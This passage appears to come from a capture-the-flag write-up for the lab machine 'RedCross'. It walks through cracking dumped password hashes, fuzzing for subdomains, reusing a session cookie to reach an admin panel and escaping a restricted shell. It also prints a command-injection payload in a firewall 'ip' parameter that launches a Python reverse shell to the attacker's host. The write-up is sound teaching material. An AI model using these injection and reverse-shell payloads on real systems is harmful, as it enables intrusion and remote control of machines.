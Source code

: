 ```
1,0,admin@redcross.htb,admin,$2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq.
2,1,penelope@redcross.htb,penelope,$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwf
3,1,charles@redcross.htb,charles,$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.
4,100,tricia.wanderloo@contoso.com,tricia,$2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7Q
5,1000,non@available,guest,$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi
```

We start to crack the hashes and find that after a few minutes only the password of charles (`charles:cookiemonster`) and guest could be recovered. Trying to find the admin webpanel we search for subdirectories and subdomains and finally discover a new subdomain `admin.redcross.htb` which we add to "/etc/hosts" and finally find the admin webpanel:

```
wfuzz --hc 301 -w ~/tools/SecLists/Discovery/DNS/subdomains-top1mil-110000.txt -H "Host: FUZZ.redcross.htb" https://redcross.htb
```

![](htb_redcross_admin_panel.png)

However unfortunately charles credentials don’t work here, they work though on the original site (intra.redcross.htb). We take the cookie from this site after logging in with charles:

```
PHPSESSID=g9e5u1llc1ceb1kh7u4n04r912; LANG=EN_US; SINCE=1552501118; LIMIT=10; DOMAIN=intra
```

And use it on the admin page with cookie manager, resulting in a login:

![](htb_redcross_admin_logged.png)

On "User Management" we can create a new user, which the system creates locally and shows us the credentials : `xct : N9JDyoxU`. We can use the new user to log into the box via ssh! However we seem to be in a restricted shell without much permissions:

```
$ id
uid=2020 gid=1001(associates) groups=1001(associates)
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
penelope:x:1000:1000:Penelope,,,:/home/penelope:/bin/bash
```

To escape the shell restrictions we use vim `:!/bin/bash`. Enumerating the box doesn’t yield too much interesting stuff though, so we go back to the webapp to explore the second "app". On "Firewall" we can add an ip address to a whitelist. After some manual tries we find that the ip parameter is injectable `ip=10.10.14.5; whoami&id=23&action=deny`. We use a python reverse shell oneliner and get a shell back as www-data:

```
ip=10.10.14.14; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",8000));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"])'&id=23&action=deny
```

We upgrade the shell `python -c 'import pty; pty.spawn("/bin/bash")'` and find the user flag in "/home/penelope/" but can’t read it as its only readable by root and penelope. At this point I continued to root the machine and ignored the user flag.
